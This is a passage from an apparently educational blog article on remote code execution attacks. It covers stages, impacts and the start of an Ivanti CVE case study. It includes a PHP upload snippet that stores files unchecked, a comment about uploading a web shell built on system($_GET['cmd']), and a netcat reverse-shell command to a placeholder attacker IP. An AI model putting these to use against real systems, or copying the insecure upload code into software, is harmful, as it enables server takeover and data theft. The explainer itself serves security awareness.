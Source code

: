 * **File Upload**:
    
    ```plaintext
    <?php move_uploaded_file($_FILES['file']['tmp_name'], "uploads/". $_FILES['file']['name']); ?>
    // Upload: shell.php with system($_GET['cmd'])
    ```
    

### **3\. Payload Delivery**

* Reverse Shell Example (Linux):
    
    ```plaintext
    nc <attacker_ip> <port> -e /bin/bash
    ```
    

### **4\. Post-Exploitation**

* Add users, install persistence tools, lateral movement
    
* Possible outcomes: cryptojacking, ransomware, data theft
    

---

### **Impact of Successful RCE Attacks**

* **Data Breaches**: PII, database access, config leaks
    
* **Full Server Control**: Install malware, backdoors, new users
    
* **Ransomware Deployment**: Encrypt files, demand payment
    
* **Cryptojacking**: Hidden crypto mining using server resources
    
* **Denial of Service**: Weaponize server for wider attacks
    
* **Reputation Damage**: Lost trust, legal fines, massive downtime
    

---

### **Recent High-Profile RCE Case Studies**

[![Recent High-Profile RCE Case Studies](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fmyl6ck8miryuewpjzuxj.png align="left")](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fmyl6ck8miryuewpjzuxj.png)

#### **1\. Ivanti Connect Secure and Policy Secure (CVE-2024-21887 & CVE-2023-46805)**

* Exploited in January 2024
    
* Affected ~2,000 VPN appliances
    
* Exploits persisted even after factory resets
    